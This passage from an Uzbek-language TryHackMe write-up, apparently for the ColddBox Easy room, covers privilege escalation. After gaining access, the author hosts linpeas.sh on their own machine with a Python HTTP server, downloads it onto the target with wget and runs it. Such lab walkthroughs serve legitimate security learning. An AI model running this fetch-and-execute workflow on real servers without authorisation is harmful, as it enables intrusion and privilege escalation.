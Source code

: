Tizimga kirib oldik endi esa imtiyozlarni oshirish kerak.

Tizimni tahlil qilish uchun bizga linpeas.sh dasturi kerak bo'ladi. Uni kompyuterimga yuklab, serverga olib o'tishimiz kerak.

Uni yuklab olish:

```
wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh
```

Kompyuterimizga yuklab olgach biz o'zimizdan HTTP server ochib faylni serverga olib o'tamiz.

Http server ochish:

```
sudo python3 -m http.server 80
```

Serverga yuklash:

```
wget 10.8.24.135/linpeas.sh
```

Unga Execution huquqini berish:

```
chmod +x linpeas.sh
```

Ishga tushurish:

```
./linpeas.sh 
```

 Meni qiziqtirgan hisobot qismi:

![](https://raw.githubusercontent.com/akhatkulov/Write-Ups/refs/heads/main/TryHackme/Pictures/colddboxeasy_4.jpg)
